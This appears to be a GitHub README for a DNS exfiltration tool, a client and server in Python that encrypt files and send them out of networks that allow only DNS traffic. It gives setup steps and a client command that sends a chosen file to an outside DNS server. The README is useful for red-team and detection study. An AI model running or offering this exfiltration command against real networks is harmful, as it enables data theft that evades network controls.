

# DNS Exfiltration
* DNS can be used to extract data from protected networks that only permit DNS. These are client & server scripts that both encrypt & decrypt data transferred through DNS. The client encrypts the data before it's sent through the network. The server decrypts the data once it's received from the client. 

# Setup:
* Dependencies (client/server)
	```
	pip3 install -r requirements.txt
	```
* Server:
	```
	python3 server.py -v
	```
* Note that since DNS server is usually running on privileged port `53`, the `server.py` needs root permissions.
* Client:
	```
	python3 client.py -n <YOUR DNS SERVER> -f /path/to/file
	```
* A gif showing the process:
* 
* How it looks on WireShark (DNS over UDP):
* 
* How it looks on WireShark (DNS over TCP):
* 
# Requires python3.8+
* Since the server & client are using UDP protocol to transfer data, such a transfer process is not reliable, and therefore, files might not be transferred correctly when either the file being transferred is large or there is a traffic noise on the server. The delay between the byte blocks being sent can also affect the byte blocks order, which may corrupt the file being sent if one block of bytes gets received before the one that must be received first.
* For these reasons, DNS over TCP is supported and can be used to transfer files/data on a higher reliability.
* You can send binary files too.
# TODO
* ✓ Make the file sending process as reliable as possible (use TCP for this `--tcp`).
----
* Useful links:
* [DNS exfiltration of data](https://hinty.io/devforth/dns-exfiltration-of-data-step-by-step-simple-guide/)
